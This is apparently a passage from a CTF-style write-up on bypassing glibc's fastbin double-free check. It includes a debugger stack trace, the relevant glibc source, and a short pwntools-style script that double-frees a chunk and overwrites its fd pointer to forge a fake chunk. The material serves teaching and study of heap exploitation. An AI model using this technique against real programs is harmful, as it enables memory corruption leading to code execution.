 This is due to a glibc double-free exploit mitigation. 

The stack frame:

```bash
 ► f 0   0x7ffff7a5204a raise+202
   f 1   0x7ffff7a530f5 abort+357
   f 2   0x7ffff7a93f07 __libc_message+599
   f 3   0x7ffff7a9b2aa
   f 4   0x7ffff7a9ccb4 _int_free+948
   f 5         0x400a22 main+603
   f 6   0x7ffff7a3e037 __libc_start_main+231
   f 7         0x40070a _start+42
```

By issuing `f 4`, we would switch to the `_int_free` function frame. By issuing `context code`, we can see the triggering code:

```c
if (__builtin_expect (old == p, 0))
    malloc_printerr ("double free or corruption (fasttop)");
p->fd = old;
*fb = p;
```

This mitigation is simple - it checks that the top of the bin, `old` is not the chunk we're going to add, `p`. 

## Exploitation

We can easily bypass the mitigation, by freeing another chunk within the same fastbin, before double-freeing our target chunk. \
By doing so, i got the same chunk twice within the same fastbin:

```bash
pwndbg> fastbins
fastbins
0x20: 0x603000 —▸ 0x603020 ◂— 0x603000
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

The key idea, is that after performing the double free, another allocation of the same bin would be taking one of the doubly-freed chunks - `0x603000`.

Since the program allows us to control the user content of an allocated chunk, it will allow us to *override the fd pointer* - as it is reinterpreted as user content on the newly allocated chunk!

By overriding the `fd` ptr to arbitrary address, we can link it to some fake chunk we may control!

For example:

```c
# Request two 0x30-sized chunks and fill them with data.
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

# Will be allocated with chunk_A.
# First 8 bytes are the fd ptr, so we create a fake, controlled chunk at 'user' address
dup = malloc(0x28, p64(elf.sym.user))
```